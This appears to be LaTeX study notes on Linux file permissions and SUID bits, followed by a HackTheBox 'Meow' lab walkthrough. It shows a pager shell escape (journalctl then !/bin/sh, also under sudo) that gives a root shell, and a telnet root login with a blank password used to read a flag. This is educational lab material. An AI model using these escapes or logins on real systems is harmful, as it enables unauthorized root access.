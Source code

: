 \documentclass[a4paper,12pt]{article}
\newcommand{\bashinline}[1]{%
\colorbox{bashcodebg}{%
\parbox[b][0.6em]{\widthof{\texttt{#1}}}{\texttt{#1}}%
}%
}
\begin{document}
Change permissions ``\texttt{rwx}'' with \bashinline{chmod} and ownership with \bashinline{chown}.

\n

Besides assigning direct user and group permissions, we can also configure special permissions for files by setting the Set User ID (SUID) and Set Group ID (SGID) bits. These SUID/SGID bits allow, for example, users to run programs with the rights of another user. Administrators often use this to give their users special rights for certain applications or files. The letter ``s'' is used instead of an ``x''. When executing such a program, the SUID/SGID of the file owner is used.

\n
If the administrator sets the SUID bit to \bashinline{journalctl}, any user with access to this application could execute a shell as root. This is because it invokes the pager \bashinline{less}, that can execute arbitrary code.

It can be used to break out from restricted environments by spawning an interactive system shell.
\begin{bash}
journalctl
!/bin/sh
\end{bash}

If the \bashinline{journalctl} is allowed to run as superuser by \bashinline{sudo}, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
\begin{bash}
sudo journalctl
!/bin/sh
\end{bash}

``Sticky bits'' add another level of security for files and directories. Read about it later.

\pagebreak

\section{HackTheBox}

\subsection{Meow}

What tool do we use to test our connection to the target with an ICMP echo request?
\begin{bash}
ping "10.129.74.130"
\end{bash}

What service do we identify on port 23/tcp during our scans?
\begin{bash}
nmap -p 23 "10.129.74.130"
\end{bash}

What username is able to log into the target over telnet with a blank password?
\begin{bash}
telnet -l root "10.129.74.130" 23
cat flag.txt
\end{bash}
\end{document}
